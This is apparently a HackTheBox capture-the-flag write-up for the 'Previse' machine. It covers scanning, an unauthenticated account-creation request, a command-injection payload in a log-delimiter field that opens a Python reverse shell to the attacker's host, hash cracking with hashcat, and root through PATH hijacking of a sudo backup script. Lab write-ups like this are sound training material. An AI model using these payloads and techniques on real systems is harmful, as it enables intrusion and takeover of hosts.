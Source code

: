 # Previse 
  
  ![Screenshot from 2022-01-03 23-01-27](https://user-images.githubusercontent.com/79413473/147961137-b14b2316-8549-46b2-ad37-c9d077763f2f.png)
  
This was a Easy Linux machine on HackTheBox. Let's Dive into it.

**Name: Previse
  IP:   10.10.11.104**
  
+ First step first, let's search for open portsusing rustscan(https://github.com/RustScan/RustScan) `rustscan -a 10.10.11.104 -u 5000`.

  Only 2 ports open 80 & 22.
  
+ Nmap scan: `nmap -A -p22,80 -T4 10.10.11.104`

```
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 53:ed:44:40:11:6e:8b:da:69:85:79:c0:81:f2:3a:12 (RSA)
|   256 bc:54:20:ac:17:23:bb:50:20:f4:e1:6e:62:0f:01:b5 (ECDSA)
|_  256 33:c1:89:ea:59:73:b1:78:84:38:a4:21:10:0c:91:d8 (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
| http-cookie-flags: 
|   /: 
|     PHPSESSID: 
|_      httponly flag not set
|_http-server-header: Apache/2.4.29 (Ubuntu)
| http-title: Previse Login
|_Requested resource was login.php
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```  
+ SSH is running on port 22 and Apache webserver on port 80 with PHP. Nothing seems much interesting from version number.
+ Let's enumerate directories on web server.
  ![Screenshot from 2022-01-03 23-08-57](https://user-images.githubusercontent.com/79413473/147961792-8ea37d0b-d100-4879-b07a-a6a2e563eead.png)
  
+ Website have a login option but not register portal. And default creds. don't work. Checking source code,nothing there also. Everything else redirect to
 */login.php*. 
+ At this point nothing was vulnerable to me. Tried SQL injection on login page but no luck.
+ If you notice there is **config.php** file which was giving 200 response unlike others but had blank page in response. So i though of curling it to see response.
  `curl http://10.10.11.104/config.php`. But response was blank.
+ Then i remembered from one of the ctf i did from Tryhackme to *see actual source code of page what's happening under the hood as page was rickrolling after  loading using js redirection*. So i decided to curl **accounts.php** file due to it's big size. You could have noticed this using burp also , always use proxy LOL.
+ And voila it was vulnerable and leaked it's source code in response instead of being a "ONLY ADMINS SHOULD BE ABLE TO ACCESS THIS PAGE!!".
  ![Screenshot from 2022-01-03 23-33-05](https://user-images.githubusercontent.com/79413473/147963945-971678f5-4f90-4c3d-bd77-6b22ae3d77f7.png)
  
+ Reading through it you can understand that you can create a new user by Sending a POST request. Use either burp or curl to do same, i did curl .
  **`curl -X POST http://10.10.11.104/accounts.php -d "username=notadmin&password=admin&confirm=admin"`**
+ Now you can loginn with *notadmin:admin*. And start poking around.
+  From **/file.php** you can download files. Let's look at *siteBackup.zip*. `unzip` it and you will get various files.
+  There are some mysql creds. in **config.php** file which we can save for later.

## Foothold: Command injection

+ Reading **file_logs.php** file these guys keep logs of our actions and provide an option to download it. They provide tan option to set delimeter in log files.   How sweet of them. Reading through content of **logs.php** file you can spot the command injection vulnerability in Python **exec() fucntion**.

`$output = exec("/usr/bin/python /opt/scripts/log_process.py {$_POST['delim']}");`

user input *delim* is concatenated directly without sanitization. Bad Habit! :/

+ Reading about exec() [https://www.geeksforgeeks.org/exec-in-python/] it takes a string as input and treats them as an set of python commands. So we have to inject our own python reverse shell in it. Let's grab one from pentest monkey [https://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet]. Have your listener ready.

Payload : `delim=;python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.14.69",8081));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'` . Ending initial string and then injecting python command.

 ![Screenshot from 2022-01-04 00-03-34](https://user-images.githubusercontent.com/79413473/147966656-2719e7e0-7d1c-4b0d-a0b4-56db47448d2f.png)
 
  
  Send it and you will catch your shell.
  
## Lateral Movement: User Hash cracking 

+ Let's list listening services. `ss -lntp` and mysql service is runnin let's login with creds. we got earlier.
 
  `mysql -u root -p`
  
  let's read accounts table.
  
  ![Screenshot from 2022-01-04 00-12-53](https://user-images.githubusercontent.com/79413473/147967323-a28a9c71-d72e-4214-b147-69e4cc95500d.png)
  
+ As we don't what this hashing method is with salt icon, it was help time from discord ;). Apparently hashcat can crack it but it takes some time.

`hashcat -a 0 -m 500 hash ~/wordlist/rockyou.txt  --force`. 
1. -a is attack mode 0 loading file sfrom dictionary.
2. -m 500 as hash starts with $1
3. then hash file & wordlist path.

**password: ilovecody112235!**

+ Let's login as m4lwhere user `su m4lwhere`
+ Reading user flag. ed3baa8.................


## Privilge escaltion: Path injection

+ User may run `/opt/scripts/access_backup.sh` file as root. *sudo -l*. 
+ But that file has no write permission so we can't get root that way.
+ Let's read it's content. 

 ```
!/bin/bash

# We always make sure to store logs, we take security SERIOUSLY here

# I know I shouldnt run this as root but I cant figure it out programmatically on my account
# This is configured to run with cron, added to sudo so I can run as needed - we'll fix it later when there's time

gzip -c /var/log/apache2/access.log > /var/backups/$(date --date="yesterday" +%Y%b%d)_access.gz
gzip -c /var/www/file_access.log > /var/backups/$(date --date="yesterday" +%Y%b%d)_file_access.gz

```  
+ looks like it may be a path injection case, as date and gzip binaries are called without complete path.
+ Let's create a date file in **/tmp** directory. with content `/bin/bash` in it. 
+ Make it executable `chmod +x date`.
+ Change PATH=/tmp:$PATH. Now when date binary will be called it will check first in /tmp directory and it will execute malicious one.
+ As m4lwhere run the script you will get the root shell.

  ![Screenshot from 2022-01-04 01-04-39](https://user-images.githubusercontent.com/79413473/147972269-bf729291-dd96-4623-813c-649ce10399b1.png).
 
+ Now you are root and read root flag.


That was pretty much it. Let me know if there is an y feedback maybe i am explaining too much.

Thank you.






















 

